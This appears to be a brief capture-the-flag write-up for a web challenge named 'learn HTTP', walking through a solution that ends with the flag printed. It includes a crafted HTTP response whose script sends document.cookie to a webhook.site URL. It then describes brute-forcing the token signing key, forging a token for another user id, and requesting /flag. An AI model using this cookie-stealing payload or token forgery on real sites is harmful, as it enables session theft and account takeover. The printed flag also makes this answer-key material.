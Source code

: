 # learn HTTP
## Solution
We can produce any HTTP response, just url-encode it and pass to the input to get the url to produce your HTTP response.

Let's make a perfect HTTP response which will make a simple fetch to hook

```
HTTP/1.1 200 OK
Content-type: text/html
Content-length: 102

<script>fetch(`https://webhook.site/7c0b4f46-d927-4d8e-8601-3d70d049fe4c?${document.cookie}`)</script>
```

![hook response](hook.png)

We get the token in the request, after bruting the signing key, we find it as `banana`

changing the id to 2 and sigining the payload, we request to `/flag` with cookie as `token=<new_token>`, we get the flag

## Flag
`pearl{c4nt_s3nd_th3_resP0n53_w1th0ut_Sani7iz1ng}`